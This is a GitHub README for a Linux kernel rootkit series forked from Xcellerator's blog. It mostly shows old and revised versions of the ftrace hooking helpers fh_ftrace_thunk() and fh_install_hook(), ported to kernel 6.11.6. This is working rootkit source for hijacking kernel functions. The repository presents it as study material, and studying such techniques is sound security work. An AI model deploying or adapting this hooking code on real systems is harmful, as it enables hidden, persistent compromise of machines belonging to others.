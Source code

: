 # Linux-Rootkit-Series forked from Xcellerator

The Linux_kernel_hacking series with the xcellerator was amazing and inspired me to make an updated repo of his project and also make some minor changes since this will be working on 6.11.6. Understanding how these work opens you up to another other world.

This will aim to be a full series of individual malicious linux kernel modules for most recent kernel version 6.11.6.

** This is the link to the Xcellerator blog series https://xcellerator.github.io/posts/linux_rootkits_11/
---

# Changes from original copy of Xcellerators ftrace_helper.h library

  - This is the old function fh_ftrace_thunk() and its code below:
```
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct pt_regs *regs)
{
    struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

#if USE_FENTRY_OFFSET
    regs->ip = (unsigned long) hook->function;
#else
    if(!within_module(parent_ip, THIS_MODULE))
        regs->ip = (unsigned long) hook->function;
#endif
}
```

  - This is the revised code of the function fh_ftrace_thunk() function below:

```
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct ftrace_regs *fregs)  // revised
{
    struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

    struct pt_regs *regs = ftrace_get_regs(fregs); // Added

#if USE_FENTRY_OFFSET
    regs->ip = (unsigned long) hook->function;
#else
    if(!within_module(parent_ip, THIS_MODULE))
        regs->ip = (unsigned long) hook->function;
#endif
}
```

# Changes to fh_install_hook()

 - This is the old snippet below of the function:

```
int fh_install_hook(struct ftrace_hook *hook)
{
    int err;
    err = fh_resolve_hook_address(hook);
    if(err)
        return err;

    hook->ops.func = fh_ftrace_thunk;
    hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
            | FTRACE_OPS_FL_RECURSION_SAFE
            | FTRACE_OPS_FL_IPMODIFY;

    err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        return err;
    }

    err = register_ftrace_function(&hook->ops);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
        return err;
    }

    return 0;
}
```
  - This is the revised snippet of code for the function below:

```
int fh_install_hook(struct ftrace_hook *hook)
{
    int err;
    err = fh_resolve_hook_address(hook);
    if(err)
        return err;

    hook->ops.func = fh_ftrace_thunk;
    hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
            | FTRACE_OPS_FL_RECURSION
            | FTRACE_OPS_FL_IPMODIFY;

    err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        return err;
    }

    err = register_ftrace_function(&hook->ops);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
        return err;
    }

    return 0;
}
```

